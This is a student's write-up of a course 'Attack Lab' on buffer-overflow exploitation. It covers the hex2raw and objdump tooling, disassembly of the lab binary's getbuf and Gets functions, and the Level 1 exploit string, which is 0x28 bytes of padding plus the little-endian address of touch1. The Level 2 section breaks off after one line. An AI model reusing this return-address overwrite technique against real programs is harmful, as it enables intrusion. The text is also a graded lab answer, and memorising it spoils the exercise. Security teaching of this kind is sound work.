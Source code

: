 # Attack Lab Report

---

- [1. Process](#1-process)
    - [1.1. Tools](#11-tools)
        - [1.1.1. hex2raw](#111-hex2raw)
        - [1.1.2. gcc and objdump](#112-gcc-and-objdump)
- [2. Part I : Code Injection Attacks](#2-part-i--code-injection-attacks)
    - [2.1. Level 1](#21-level-1)
        - [2.1.1. Process Record](#211-process-record)
    - [2.2. Level 2](#22-level-2)

---

## 1. Process

- `ctarget` : Code Injection Attacks  
- `rtarget` : Return-oriented Programming(ROP) Attacks  

### 1.1. Tools

#### 1.1.1. hex2raw

`hex2raw` : read hex and convert them to raw ascii  
support c style block comment  
` /* */ `(remember to leave space around both `/*` and `*/`)  

**usage:**  

1. pipe  

    ```bash
    cat answer_file | ./hex2raw | ./ctarget
    ```

2. raw file

    ```bash
    ./hex2raw < answer_file > answer_file_raw
    ./ctarget < answer_file_raw
    ```

    gdb is also supported this way  

    ```bash
    gdb ctarget  
    run < answer_file_raw  
    ```

#### 1.1.2. gcc and objdump

we can use gcc as assembler to translate our assembly code to machine code  
and then use `objdump -d` to disassemble the machine code to assembly code  
then we can get the byte codes  

## 2. Part I : Code Injection Attacks

CI Attack is used to conquer this target  

important goal : exploit string  

### 2.1. Level 1

Phase 1  
not inject new code  
but exploit string to redirect the program to execute an existing procedure  

#### 2.1.1. Process Record

1. disassemble `ctarget`  

2. find the target  

    find `stable_lunch`  
    witch uses `lunch`  
    witch uses `test`  
    witch uses `getbuf`  
    witch is our target  

    ```asm
    00000000004018fb <test>:
    4018fb:	48 83 ec 08          	sub    $0x8,%rsp
    4018ff:	b8 00 00 00 00       	mov    $0x0,%eax
    401904:	e8 31 fe ff ff       	call   40173a <getbuf>
    401909:	89 c2                	mov    %eax,%edx
    40190b:	be c8 2f 40 00       	mov    $0x402fc8,%esi
    401910:	bf 01 00 00 00       	mov    $0x1,%edi
    401915:	b8 00 00 00 00       	mov    $0x0,%eax
    40191a:	e8 01 f4 ff ff       	call   400d20 <__printf_chk@plt>
    40191f:	48 83 c4 08          	add    $0x8,%rsp
    401923:	c3                   	ret

    000000000040173a <getbuf>:
    40173a:	48 83 ec 28          	sub    $0x28,%rsp
    40173e:	48 89 e7             	mov    %rsp,%rdi
    401741:	e8 7e 02 00 00       	call   4019c4 <Gets>
    401746:	b8 01 00 00 00       	mov    $0x1,%eax
    40174b:	48 83 c4 28          	add    $0x28,%rsp
    40174f:	c3                   	ret

    00000000004019c4 <Gets>:
    4019c4:	41 54                	push   %r12
    4019c6:	55                   	push   %rbp
    4019c7:	53                   	push   %rbx
    4019c8:	49 89 fc             	mov    %rdi,%r12
    4019cb:	c7 05 4f 37 20 00 00 	movl   $0x0,0x20374f(%rip)        # 605124 <gets_cnt>
    4019d2:	00 00 00 
    4019d5:	48 89 fb             	mov    %rdi,%rbx
    4019d8:	eb 11                	jmp    4019eb <Gets+0x27>
    4019da:	48 8d 6b 01          	lea    0x1(%rbx),%rbp
    4019de:	88 03                	mov    %al,(%rbx)
    4019e0:	0f b6 f8             	movzbl %al,%edi
    4019e3:	e8 3c ff ff ff       	call   401924 <save_char>
    4019e8:	48 89 eb             	mov    %rbp,%rbx
    4019eb:	48 8b 3d fe 2a 20 00 	mov    0x202afe(%rip),%rdi        # 6044f0 <infile>
    4019f2:	e8 f9 f2 ff ff       	call   400cf0 <_IO_getc@plt>
    4019f7:	83 f8 ff             	cmp    $0xffffffff,%eax
    4019fa:	74 05                	je     401a01 <Gets+0x3d>
    4019fc:	83 f8 0a             	cmp    $0xa,%eax
    4019ff:	75 d9                	jne    4019da <Gets+0x16>
    401a01:	c6 03 00             	movb   $0x0,(%rbx)
    401a04:	b8 00 00 00 00       	mov    $0x0,%eax
    401a09:	e8 6e ff ff ff       	call   40197c <save_term>
    401a0e:	4c 89 e0             	mov    %r12,%rax
    401a11:	5b                   	pop    %rbx
    401a12:	5d                   	pop    %rbp
    401a13:	41 5c                	pop    %r12
    401a15:	c3                   	ret 
    ```

3. edit exploit string  
    1. get the address of `touch1`  
        here it is `0x0000000000401750`  
    2. analyze the stack of `getbuf`  
        it is `0x28` bytes  
    3. so we put `0x28` bytes of junk at first  
    4. converted the address to little endian  
        `0x0000000000401750` -> `50 17 40 00 00 00 00 00`  

4. deploy the exploit string  
    1. use `hex2raw` to convert the hex string to raw ascii  
    2. run `ctarget` with the raw ascii  

5. record  

    ```txt
    Cookie: 0x72dfe7ad
    Type string:Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Sent exploit string to server to be validated.
    NICE JOB!
    ```

### 2.2. Level 2

Phase 2  
we start to inject a small amount of codes as part of our exploit string  
